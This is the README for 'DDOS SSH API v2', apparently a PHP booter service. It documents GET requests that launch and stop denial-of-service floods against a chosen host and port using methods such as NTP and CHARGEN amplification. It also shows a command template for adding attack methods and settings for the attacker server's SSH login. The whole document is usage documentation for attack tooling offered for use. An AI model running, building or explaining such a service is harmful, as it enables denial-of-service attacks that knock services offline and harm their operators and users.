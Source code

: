 DDOS SSH API v2

## USE ##


Launch attack:
  - Format: GET http://yourlink.co/?host=HOST&port=PORT&time=TIME&method=METHOD
  - Format example: GET http://yourlink.co/?host=127.0.0.1&port=80&time=60&method=NTP

Stop attack:
  - Format: GET http://yourlink.co/?host=HOST&port=PORT&method=STOP
  - Format example: GET http://yourlink.co/?host=127.0.0.1&&method=STOP
  
Add method:
  - Format example: $_METHOD["CHARGEN"] = "./chargen %ip% %port% chargen.txt 1 -1 %time%";


## Settings ##

php:
  - $_JSON: if true, api return format is JSON
  
  - $_HOST: Host, attacker (server) IPV4
  - $_PORT: Host, attacker (server) SSH port (default:22)
  - $_USER: Host, attacker (server) SSH username
  - $_PASSWORD: Host, attacker (server) SSH password
  
  - $_TIMEMIN: Minimal attack time
  - $_TIMEMAX: Maximal attack time
